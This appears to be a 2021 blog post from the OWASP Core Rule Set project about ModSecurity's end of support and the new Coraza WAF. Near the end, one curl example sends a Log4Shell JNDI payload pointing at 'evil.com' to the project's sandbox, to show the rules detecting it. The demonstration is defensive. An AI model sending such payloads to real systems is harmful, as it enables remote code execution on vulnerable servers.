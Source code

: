 ```yaml
---
author: dune73
categories:
  - Blog
date: '2021-12-22T13:23:02+01:00'
guid: https://coreruleset.org/?p=1584
id: 1584
permalink: /20211222/talking-about-modsecurity-and-the-new-coraza-waf/
title: Talking about ModSecurity and the new Coraza WAF
url: /2021/12/22/talking-about-modsecurity-and-the-new-coraza-waf/
---
```



It's time to talk about the ModSecurity engine and to introduce you to Coraza, a new contender on the WAF front. Any rule set is nothing without a WAF engine to run it, so even if our project is focused on the rules, we need to look at the underlying engine(s) from time to time.

On August 26, 2021, Trustwave, the owner of ModSecurity, announced the end of Support for ModSecurity for 2024 in a [blog post](https://www.trustwave.com/en-us/resources/security-resources/software-updates/end-of-sale-and-trustwave-support-for-modsecurity-web-application-firewall/). The blog also states that Trustwave plans to “let the open-source community continue the project.”

During autumn, OWASP, our mother organization, reached out to Trustwave and offered to assume stewardship of the project and attract sponsors while honoring Trustwave’s existing commitments. Sadly, OWASP and Trustwave were not yet able to find a common path before the end of Trustwave’s end of life support in 2024. So Trustwave is winding down their commitment and we need to move on.

As the provider of the OWASP ModSecurity Core Rule Set, we are the biggest users of ModSecurity, but also one of the biggest experts on ModSecurity. Our CRS co-leader Dr. Christian Folini is the author of the 2nd edition of the quasi-official ModSecurity Handbook, and our project brings together a unique expertise of ModSecurity in very diverse setups. We have been examining the development of ModSecurity ever since it was taken over by Trustwave, we have seen lead developers join and leave the company, we have raised dozens of issues and we contributed with several pull requests.

Without going into too much detail, we think it is fair to say that ModSecurity failed to attract a community of active developers. CRS has grown from 3 to 12 active developers since it separated from Trustwave in 2016. Meanwhile, ModSecurity has not been able to keep up with the necessary resources to accommodate the growing CRS project and its users.

#### ModSecurity: a problem with two code bases

One problem is the ModSecurity code base. The traditional base is ModSecurity 2, a venerable Apache module, originally developed by Ivan Ristić. However ModSecurity 2 is heavily linked to Apache internals, which makes it hard to port it and makes it sensible to re-factor. There is the successor libModSecurity 3, a standalone engine built from scratch in C++ with a connector module to integrate it into NGINX. ModSecurity 3 was released as stable and production-ready in December 2017.

It's been four years, and CRS still uses ModSecurity 2 as its reference implementation. The main reason is ModSecurity 3 fails to pass all tests in our test suite. Trustwave dubbed ModSecurity 3 as a re-implementation with an equal feature set, which has not happened yet. Recently, we sent Trustwave a list a dozen implementation gaps and differences that break CRS rules and potentially open up an application to attacks.

But this is not the only problem. NGINX is also the only platform where a publicly available ModSecurity 3 connector module exists. So you can not run ModSecurity 3 on the traditional Apache and also not on the new hot cloud stuff. And the performance of ModSecurity 3 is much worse than the throughput of ModSecurity 2 on Apache (Yes, you heard this right: Once ModSecurity comes into play, Apache is way faster than NGINX).

So, we have a very old code base that is bound to Apache, and a newer codebase that is incomplete, less performant, and only runs on NGINX.

CRS has pondered the problem, but we came to the conclusion that we will rather use our knowledge and resources to write rules than working on an engine. That’s said, we will strive to become engine-neutral. (Which does not mean we are not supportive. The last few security problems in ModSecurity have all been discovered by CRS developers and shared with the ModSecurity developers before publication. And we have quite a few pull requests open on the ModSecurity GitHub on top.)

The only viable option for a ModSecurity fork would be a company or organization with deep pockets and the resources to clean up the codebases, closing the gaps and then maybe a vision of how to move forward. We expect about 4,000 hours of investment for both code bases.

So in our opinion, the situation looks rather bleak for ModSecurity and for those integrators who have invested in ModSecurity. We're facing a similar situation apparently. But we also think there is reason for hope. Let us explain!

First, ModSecurity’s SecLang engine is not overly important. There are already several commercial reimplementations of ModSecurity, and there is nothing preventing an open source alternative.

And second, the intelligence is in the rule set, not in the engine. Mike Shinn, CEO of Atomicorp, an old school vendor of ModSecurity rules, has put it this way recently: "The real magic of ModSecurity is always in the rules anyways." As an open source rules provider, we could not agree more.

So all we really need is an open source alternative to ModSecurity. And such a very interesting alternative has arrived now: Entering the [Coraza WAF](https://coraza.io).

#### The beauty of the new Coraza WAF

Coraza is an implementation of a SecLang engine in the memory-safe Go language, all developed by Juan Pablo Tosso from Chile. Coraza is currently only working on the open source [Caddy web server](https://caddyserver.com/), but Coraza already passes 100% of the CRS test suite and we are convinced it is production ready. Juan Pablo has picked up work on Apache and NGINX integration, and he wants to make it a drop-in replacement for ModSecurity. And then many, many more plans. The only obstacle to fill these with life is the lack of a developer community around Coraza. And we sincerely hope that the beauty of the project will inspire people to check it out and join!

<figure class="wp-block-image size-large">![](/images/2021/12/coraza-logo-1024x253.png)<figcaption>*The new Coraza WAF with its pet "Sancho" on the right.*</figcaption></figure>To give you an early access to Coraza, if you do not have a Caddy webserver to play around, we have set up a Caddy with Coraza on our CRS sandbox, and you can try it out immediately. In the following example, we will send a Log4J exploit to the sandbox. Note that with the “x-backend” header, we pick Coraza as an engine, and with “x-crs-version” we pick the Core Rule Set with the extra Log4J rule from our [earlier Log4J blog post](https://coreruleset.org/20211213/crs-and-log4j-log4shell-cve-2021-44228/).

> $ curl -H "x-crs-paranoia-level: 4" \\  
>  -H "x-format-output: txt-matched-rules" \\  
>  -H "x-backend: coraza" \\  
>  -H "x-crs-version: 3.4.0-dev-log4j" \\  
>  -H ‘***User-Agent: ${jndi:ldap://evil.com}***’ \\  
>  https://sandbox.coreruleset.org  
> 1005 PL1 Potential Remote Command Execution: Log4j CVE-2021-44228  
> 932130 PL1 Remote Command Execution: Unix Shell Expression Found  
> 949110 PL1 Inbound Anomaly Score Exceeded (Total Score: 10)  
> 980130 PL1 Inbound Anomaly Score Exceeded (Total Inbound Score: 10 - SQLI=0,XSS=0,RFI=0,LFI=0,RCE=10,PHPI=0,HTTP=0,SESS=0): individual paranoia level scores: 10, 0, 0, 0

#### **Conclusion**

We are not sailing away from the ModSecurity island just yet, but we are helping to build a new ship. While we see problems with the viability of the ModSecurity project, we will continue to test it and report issues with ModSecurity 3 productively in order to help improve its outlook. Meanwhile, we will work with the community on creating alternatives such as Coraza, so our users can use the Core Rule Set with any modern setups for many years to come. Our sandbox will be a useful asset to help us assess and compare various engines, to give our users as many options as possible.

If you are interested in looking at Coraza, here are some interesting links:

- <https://coraza.io>
- <https://coraza.io/docs/tutorials/introduction/>
- <https://github.com/jptosso/coraza-waf>

We will keep you updated on new developments in this regard.  
  
*Walter Hop and Christian Folini, leaders of the OWASP ModSecurity Core Rule Set project*  
  
P.S. Juan Pablo Tosso asked CRS to come up with a name for his Coraza mascot. We settled on Sancho and he thought it was a great fit.
